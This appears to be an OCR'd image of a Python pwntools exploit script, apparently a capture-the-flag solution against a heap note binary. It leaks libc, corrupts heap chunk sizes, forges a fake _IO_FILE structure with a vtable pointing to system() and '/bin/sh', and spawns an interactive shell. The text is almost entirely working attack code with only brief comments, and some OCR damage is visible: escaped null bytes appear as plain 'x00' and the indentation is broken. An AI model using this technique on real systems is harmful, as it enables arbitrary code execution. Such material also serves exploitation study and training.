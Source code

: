 ```
   #call free func addr 0x4009AA
   def pwn():
       gdb.attach(p,"b *0x400946")
       mmap=add_note(0x2000000)-0x10
       libc=mmap+0x2001000  #gain the libc address
       system_addr=libc+0x414f0
       io_list=libc+0x3a4040
       main_arena=libc+0x3A3620+88
    
       log.success("libc = " + hex(libc))
       log.success("system address = " + hex(system_addr))
       log.success("IO_LIST address = " + hex(io_list))
       log.success("main_arena address = " + hex(main_arena - 88))
     
        delete_note()
        heap=add_note(512)-0x10
        print hex(heap)
  
        data='a'*0x200+p64(0)+p64(0xdf1)+"x00"*0x18+p64(0x21)  
        edit_note(data)     #make the top chunk size from 0x3000 to 0x1000
        delete_note()
        add_note(0x1000)    #then the top chunk will be freed, it will be puted to unsorted bin chunk
        delete_note()
      
        add_note(512)
        data="a"*0x200+p64(0)+p64(0xdd1)+p64(main_arena)+p64(main_arena)+'x00'*0xdb0+p64(0)+p64(0x11)
        edit_note(data)
        delete_note()#here, the chunk of 512 bytes will not consolidate with the 0xdd0 chunk, because the prev inuse bit has been set, 0x11
  
        add_note(528) #this malloc will spilt the 0xdd0 chunk into two chunks, and system may put 512 chunk to the small bin chunk.
        delete_note()# right now ,unsorted bin chunk has two chunk,one is 528,the other one is 0xdd0-528, and small bin chunk has one chunk ,which is 512
        add_note(512)
        data="a"*0x200+p64(0x210)+p64(0x221)+p64(heap+0x430)+p64(main_arena)+'x00'*(0x220-0x20)
        fake_chunk_and_fake_io_list="/bin/shx00" + p64(0x61)+p64(0)+p64(io_list-0x10)#former 32bits is fake chunk
        fake_chunk_and_fake_io_list+=p64(0) #write_base
        fake_chunk_and_fake_io_list+=p64(1) #write_ptr  satisfy fp-&gt;_IO_write_ptr &gt; fp-&gt;_IO_write_base
        fake_chunk_and_fake_io_list=fake_chunk_and_fake_io_list.ljust(0xc0,'x00')
     
        fake_chunk_and_fake_io_list+=p64(0xffffffffffffffff)  #here set fp-&gt;mode=-1 to bypass the check
        fake_chunk_and_fake_io_list=fake_chunk_and_fake_io_list.ljust(0xd8,'x00')
        vtable=heap+0x10+0x200+0x220+len(fake_chunk_and_fake_io_list)+8
        fake_chunk_and_fake_io_list+=p64(vtable)
        fake_chunk_and_fake_io_list+=p64(0) #dummy 0
        fake_chunk_and_fake_io_list+=p64(0) #dummy 1
        fake_chunk_and_fake_io_list+=p64(1)#finish addr
        fake_chunk_and_fake_io_list+=p64(system_addr) #IO_OVERFLOW
        data+=fake_chunk_and_fake_io_list
        edit_note(data)
        delete_note()
      
        sleep(0.5)
        add_note(0xb00)
        p.interactive()
  
    if __name__ == '__main__':
```